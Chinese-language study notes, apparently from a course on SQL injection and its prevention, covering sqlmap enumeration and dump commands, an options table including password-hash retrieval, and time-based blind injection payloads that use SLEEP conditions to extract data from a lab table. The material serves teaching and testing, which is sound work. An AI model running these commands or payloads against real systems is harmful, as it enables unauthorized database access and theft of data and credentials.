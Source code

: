 ##### sqlmap工具

```bash
确定使用的数据库：  sqlmap -u url --dbs
查看数据库的表单：  sqlmap -u url -D db_name --tables
查看表的字段：  sqlmap -u url -D db_name -T table_name --columns
查看字段值：  sqlmap -u url -D db_name -T table_name -C column_name --dump
```

| --cookie=cookie        | 设置cookie值， 比如  PHPSESSID=a8d127e     | --current-db   | 获取当前数据库          | --columns          | 获取表里的字段 |
| ---------------------- | ------------------------------------------ | -------------- | ----------------------- | ------------------ | -------------- |
| --data                 | 设置POST值                                 | --current-user | 获取当前数据库的用户    | --dump             | 获取字段内容   |
| -u 或 --url=target_url | 指定 url                                   | --passwords    | 用户的hash值            | -D [database_name] | 指定数据库名称 |
| --technique=TECH       | 指定失SQL注入类型 ，  默认是全部 ( BEUSTQ) | --dbs          | 枚举数据库中的数据库 名 | -T [table_name]    | 指定表名       |
| -b,--banner            | 获取DBMS banner                            | --tables       | 获取数据库所有表        | -C [column_name]   | 指定字段名     |

##### sqlmap流量

![image-20241128173203679](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128173203679.png)

用二分法进行爆破根据字符 位置变化 响应结果 推测结果

![image-20241128173307701](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128173307701.png)

### 时间盲注  

将报错信息屏蔽，  同时查询正确错误和正确的页面响应内容一样。

原理：  根据页面的响应时间判断查询语句是否正确

常用`sleep()`和`benchmark()`函数

![image-20241128173429289](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128173429289.png)

使用不同类型数据库的延迟函数测试使用的数据库以及闭合，测试可以进行时间盲注

```bash
id=1') AND (SELECT 1092 FROM (SELECT(SLEEP(5)))NZWx) AND ('keDc'='keDc
```



```bash
?id=1' AND (SELECT 1013 FROM (SELECT(SLEEP(4-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(*) AS NCHAR),0x20) FROM lylab.zykh_1nfo),1,1))>51,0,4)))))WAJk) AND 'QIhA'='QIhA 

SLEEP(4-(IF(),0,4)：若比较结果为true，返回0，SLEEP(4)，否则返回4，SLEEP(0)
• SELECT IFNULL(CAST(COUNT(*) AS NCHAR),0x20) FROM lylab.zykh_1nfo：返回表中数据量
• SELECT IFNULL(CAST(`name` AS NCHAR),0x20) FROM lylab.zykh_1nfo LIMIT 0,1：返回表中name字段值
• SELECT IFNULL(CAST(column_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7a796b685f316e666f AND table_schema=0x6c796c6162 LIMIT 3,1：返回lylab.zykh_1nfo第三条字段名称

IFNULL(exp1, exp2) ：如果expr1的值为null，则返回expr2的值，如果expr1的值不为null，则返回expr1的值case强制类型转换
```

![image-20241128174023870](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128174023870.png)

## 04.SQL注入绕过
